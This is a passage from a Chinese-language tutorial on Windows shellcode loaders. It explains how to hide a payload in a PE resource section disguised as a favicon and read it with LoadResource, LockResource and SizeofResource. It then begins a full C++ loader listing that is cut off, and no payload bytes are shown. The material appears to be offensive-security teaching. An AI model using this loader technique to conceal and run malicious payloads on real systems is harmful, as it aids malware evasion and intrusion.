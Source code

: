 - hModule指向模块的句柄，设置为NULL表示该函数将搜索用于创建当前进程的模块。
- hResInfo指向已载入资源的句柄

本例调用如下：

```cpp
resHandle = LoadResource(NULL, res);    // 返回内存中指定资源的句柄
```

**LockResource函数**[LockResource | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource)，返回指针指向内存中的资源，声明如下：

```cpp
LPVOID LockResource(
    HGLOBAL hResData
);
```

本例调用如下：

```cpp
payload = (char *) LockResource(resHandle); // 返回指向payload的指针
```

**SizeofResource函数**[SizeofResource | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource)返回指定资源的大小，声明如下：

```cpp
DWORD SizeofResource(
    HMODULE hModule,
    HRSRC   hResInfo
);
```

- hModule指向模块的句柄，设置为NULL表示该函数将搜索用于创建当前进程的模块。
- hResInfo指向已载入资源的句柄

本例调用如下：

```cpp
payload_len = SizeofResource(NULL, res);    // 返回payloal长度
```

### 3 执行payload

这一部分的代码同.text段中存储payload一致，前面有详细的分析

### 完整代码

这部分代码具有几点不同之处，payload没有直接给出，只作出了声明

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

int main(void) {

    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    HGLOBAL resHandle = NULL;
    HRSRC res;

    unsigned char * payload;
    unsigned int payload_len;

    // 变化：从资源段中提取payload
    res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
```